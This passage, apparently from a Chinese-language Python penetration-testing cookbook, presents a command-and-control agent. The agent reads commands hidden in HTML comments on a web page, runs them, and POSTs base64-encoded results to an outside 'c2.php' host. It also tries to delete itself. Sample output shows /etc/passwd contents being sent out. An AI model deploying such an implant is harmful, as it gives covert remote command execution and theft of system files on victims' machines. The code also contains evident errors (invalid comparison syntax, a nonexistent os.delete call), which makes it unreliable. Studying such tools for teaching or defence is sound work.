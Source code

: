 ```
mysql_close();
?>
```

基本上，这个 PHP 所做的就是在名为`comment`的`POST`请求中获取一个传入值，并将其放入数据库中。这是非常基本的，如果有多个 shell，它不会区分多个传入命令。

## 怎么做…

我们将使用的脚本如下所示：

```
import requests
import re
import subprocess
import time
import os

while 1:
  req = requests.get("http://127.0.0.1")
  comments = re.findall('<!--(.*)-->',req.text)
  for comment in comments:
    if comment = " ":
      os.delete(__file__)
    else:
      try:
        response = subprocess.check_output(comment.split())
      except:
        response = "command fail"
  data={"comment":(''.join(response)).encode("base64")}
  newreq = requests.post("http://notmalicious.com/c2.php", data=data)
  time.sleep(30)
```

下面显示了使用此脚本时生成的输出示例：

```
Name: TGludXggY2FtLWxhcHRvcCAzLjEzLjAtNDYtZ2VuZXJpYyAjNzktVWJ1bnR1IFNNU CBUdWUgTWFyIDEwIDIwOjA2OjUwIFVUQyAyMDE1IHg4Nl82NCB4ODZfNjQgeDg2X zY0IEdOVS9MaW51eAo= Comment:
Name: cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFl bW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9i aW46L3Vzci9zYmluL25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jp bi9ub2xvZ2luCnN5bmM6eDo0OjY1NTM0OnN5 bmM6L2JpbjovYmluL3N5bmMKZ Comment:
```

## 它是如何工作的…

一如既往，我们导入必要的库并启动脚本：

```
import requests
import re
import subprocess
import time
import os
```
